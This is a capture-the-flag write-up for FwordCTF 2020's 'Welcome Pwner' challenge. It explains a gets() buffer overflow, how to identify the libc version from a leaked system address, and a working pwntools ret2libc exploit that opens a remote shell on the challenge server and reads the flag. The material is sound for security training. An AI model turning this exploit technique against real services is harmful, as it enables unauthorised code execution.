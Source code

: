 # FwordCTF 2020

## Welcome Pwner

> 374
> 
> something to warm you up.
>
> `nc 54.210.217.206 1240`
>
> Author : haflout
>
> [`Molotov`](molotov)

Tags: _pwn_ _x86_ _remote-shell_ _bof_ _rop_


## Summary

Beginner BOF with `system` leaked, however user must find libc version themselves.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Most mitigations in place, however no stack canary; BOF -> ROP.

    
### Decompile with Ghidra

```c
undefined4 vuln(void)
{
  char local_20 [24];
  
  printf("%x\n",system);
  puts("Input : ");
  gets(local_20);
  return 0;
}
```

Not a lot here; `system` address leaked with `gets` vulnerability.  `local_20` is `0x20` bytes from the return address on the stack.  Basic BOF.

Without knowing the version of libc we cannot pass the location of `/bin/sh` to `system`;  identifying that however is simple with [libc-database](https://github.com/niklasb/libc-database):

```
# nc 54.210.217.206 1240
f7de68b0
Input :
```

Take the last 3 nibbles and pass to `./find`:

```
# ./find system 8b0 | grep _i386
archive-glibc (id libc6_2.30-0ubuntu2.1_i386)
ubuntu-eoan-i386-libc6 (id libc6_2.30-0ubuntu2.2_i386)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.30-0ubuntu2_i386.deb (id libc6_2.30-0ubuntu2_i386)
```

Multiple hits.  I went with `libc6_2.30-0ubuntu2_i386` and it worked out just fine.  If it had failed, then there was only two other options to try.


### Exploit

This code assumes that `libc-database` is located in the same directory (I just sym linked it) as `exploit.py`.

From within the `libc-database` type:

```
# ./download libc6_2.30-0ubuntu2_i386
```

This will download libc, ld, et al.

Exploit Setup:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./molotov')
context.log_level = 'INFO'
context.log_file = 'log.log'

'''
# local libc
libc = binary.libc
p = process(binary.path)
'''
# task libc
libid = 'libc6_2.30-0ubuntu2_i386'
libpath = os.getcwd() + '/libc-database/libs/' + libid + '/'
ld = ELF(libpath + 'ld-2.30.so')
libc = ELF(libpath + 'libc-2.30.so')
#p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})
p = remote('54.210.217.206', 1240)
#'''
```

The first few lines should not require much of an explanation, except perhaps the `binary = context.binary = ELF('./molotov')` statement.  The `context.binary` there in the middle will set the context (arch, os, etc...) so that `rop`, `asm`, `constants`, etc... statements produce the correct results.

The next section (selected by placing `#` at the first or last `'''`) determines if you want to use your local libc or the challenge libc.  For most easy challenges I dev/test with the local libc and then just test with the task libc.  However for some, esp. when pulling addresses from the stack, I've found inconsistencies between my local libc is vs the task libc.  Often time is wasted having to refactor or completely resolve for the task libc.  The second block handles launching a challenge binary with the intended libs.  And `gdb` works just fine with this as well.

Actual Exploit:

```python
_ = p.recvline()
system = int(_,16)
log.info('system: ' + hex(system))
libc.address = system - libc.sym.system
log.info('baselibc: ' + hex(libc.address))

payload  = 0x20 * b'A'
payload += p32(libc.sym.system)
payload += 4 * b'B'
payload += p32(libc.search(b'/bin/sh').__next__())

p.sendlineafter('Input : \n',payload)
p.interactive()
```

With the correct libc in hand, just capture the system address, compute the base of libc, then setup your ROP chain after padding with `0x20` bytes.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/molotov'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/libc-database/libs/libc6_2.30-0ubuntu2_i386/ld-2.30.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/welcome_pwner/libc-database/libs/libc6_2.30-0ubuntu2_i386/libc-2.30.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 54.210.217.206 on port 1240: Done
[*] system: 0xf7dac8b0
[*] baselibc: 0xf7d67000
[*] Switching to interactive mode
$ id
uid=1000(fword) gid=1000(fword) groups=1000(fword)
$ ls -l
total 32
-rw-r--r-- 1 root root    24 Aug 29 14:25 flag.txt
-rwxr-xr-x 1 root root  7492 Aug 29 14:25 molotov
-rwxr-xr-x 1 root root 18744 Aug 29 14:25 ynetd
$ cat flag.txt
FwordCTF{good_j0b_pwn3r}
```